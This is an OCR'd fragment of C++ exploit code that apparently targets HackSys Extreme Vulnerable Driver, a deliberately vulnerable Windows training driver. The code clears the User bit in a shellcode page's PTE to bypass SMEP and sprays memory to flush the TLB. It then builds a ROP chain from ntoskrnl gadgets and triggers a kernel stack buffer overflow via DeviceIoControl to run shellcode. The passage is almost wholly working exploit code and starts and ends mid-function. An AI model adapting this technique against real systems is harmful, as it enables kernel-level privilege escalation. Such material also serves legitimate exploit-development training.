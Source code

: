 ```cpp
        printf("[-] Failed getting shellcode's PTE data!\n");
        bResult = FALSE;
        goto _cleanup;
    }
    printf("[*] PTE Data of shellcode: 0x%llx\n", whereBuffer);

    // Reset the User bit to zero - now it's kernel
    ULONGLONG wantedPteValue = whereBuffer & ~0x4;

    /*
    *(ULONGLONG*)(inBuf + 568) = (ULONGLONG)((ULONGLONG)ntoskrnlBase + POP_RCX);
    *(ULONGLONG*)(inBuf + 576) = (ULONGLONG)(scPte);
    *(ULONGLONG*)(inBuf + 584) = (ULONGLONG)((ULONGLONG)ntoskrnlBase + POP_RAX);
    *(ULONGLONG*)(inBuf + 592) = (ULONGLONG)(wantedPteValue);
    *(ULONGLONG*)(inBuf + 600) = (ULONGLONG)((ULONGLONG)ntoskrnlBase + MOV_RCX_RAX);
    *(ULONGLONG*)(inBuf + 608) = (ULONGLONG)((ULONGLONG)ntoskrnlBase + WBINVD_GADGET);


    printf("[+] Trigerring BufferOverflow that bypasses SMEP and flushes the cache\n");
    bResult = DeviceIoControl(hDevice,                       // device to be queried
                              HEVD_IOCTL_BUFFER_OVERFLOW_STACK_GS, // operation to perform
                              inBuf, STACK_OVERFLOW_GS_EXPLOIT_BUFFER_LENGTH,                       // no input buffer
                              NULL, 0,            // output buffer
                              &junk,                         // # bytes returned
                              (LPOVERLAPPED)NULL);          // synchronous I/O

    if (!bResult) {
        printf("[-] Failed sending IOCTL\n");
        bResult = FALSE;
        goto _cleanup;
    }
    */


   // Spray the TLB Cache
   printf("[+] Invalidating the TLB cache\n");
   LPVOID* arr[CACHE_SPRAY_SIZE];
   char arr2[CACHE_SPRAY_SIZE];
   for (int i = 0; i < CACHE_SPRAY_SIZE; i++) {
       //arr[i] = malloc(4096);
       arr[i] = VirtualAlloc(NULL, 5000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
       *(char *)arr[i] = 1;
       arr2[i] = *(char*)arr[i];
   }

   printf("[*] Finished invalidating the TLB cache\n");

   // Prepare the ROP chain
    *(ULONGLONG*)(inBuf + 568) = (ULONGLONG)((ULONGLONG)ntoskrnlBase + POP_RCX);
    *(ULONGLONG*)(inBuf + 576) = (ULONGLONG)(scPte);
    *(ULONGLONG*)(inBuf + 584) = (ULONGLONG)((ULONGLONG)ntoskrnlBase + POP_RAX);
    *(ULONGLONG*)(inBuf + 592) = (ULONGLONG)(wantedPteValue);
    *(ULONGLONG*)(inBuf + 600) = (ULONGLONG)((ULONGLONG)ntoskrnlBase + MOV_RAX_TO_PTR_RCX);
    *(ULONGLONG*)(inBuf + 608) = (ULONGLONG)(shellcode);

    printf("[+] Trigerring BufferOverflow that will run our shellcode\n");
    bResult = DeviceIoControl(hDevice,                       // device to be queried
                              HEVD_IOCTL_BUFFER_OVERFLOW_STACK_GS, // operation to perform
                              inBuf, STACK_OVERFLOW_GS_EXPLOIT_BUFFER_LENGTH,                       // no input buffer
                              NULL, 0,            // output buffer
                              &junk,                         // # bytes returned
```